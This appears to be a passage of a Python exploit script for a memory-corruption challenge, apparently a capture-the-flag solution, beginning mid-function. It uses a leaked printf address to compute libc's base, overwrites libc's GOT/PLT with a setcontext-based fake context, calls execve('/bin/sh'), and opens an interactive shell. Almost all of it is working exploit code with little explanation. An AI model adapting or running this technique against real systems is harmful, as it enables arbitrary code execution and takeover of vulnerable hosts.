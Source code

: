 ```python
        0xA8: rip,  # ret ptr
        0xE0: src,  # fldenv ptr
        # 0x1C0: 0x1F80,  # assume ldmxcsr == 0
    }, filler=b'\x00', word_size=64)[0x68:]
    return b


def fx0(libc: ELF, nudge=8, **kwargs) -> (int, bytes):
    # nudge is used to make sure ldmxcsr == 0,
    # aka [got + 8 + 0x10 + got_count * 8 - 0x68 + nudge + 0x1c0] == 0
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(
        ".plt").header.sh_addr

    write_dest = got + 8
    got_count = 0x36  # hardcoded
    context_dest = write_dest + 0x10 + got_count * 8 - 0x68 + nudge
    warn("make sure [libc.address + 0x{:x} (0x{:x})] == 0".format(
        context_dest + 0x1c0 - libc.address,
        context_dest + 0x1c0
    ))
    write_data = flat(
        context_dest,
        libc.symbols["setcontext"] + 32,
        [plt0] * got_count,
        b'\x00' * nudge,
        lite_context(context_dest, rsp=libc.symbols["environ"] + 8,
                     **kwargs),
    )
    return write_dest, write_data


leak = int(rl(), 16)
logsym(leak)
lbase = leak - libc.sym['printf']
logsym(lbase)
libc.address = lbase

dest, payload = fx0(
    libc,
    rip=libc.sym["execve"],
    rdi=libc.search(b"/bin/sh").__next__(),
    rsi=0,
    rdx=0,
)
ss("write payload to {}, length {}".format(hex(dest), hex(len(payload))))
sd(p64(dest))
sd(p64(len(payload)))
sd(payload)

interact()
```
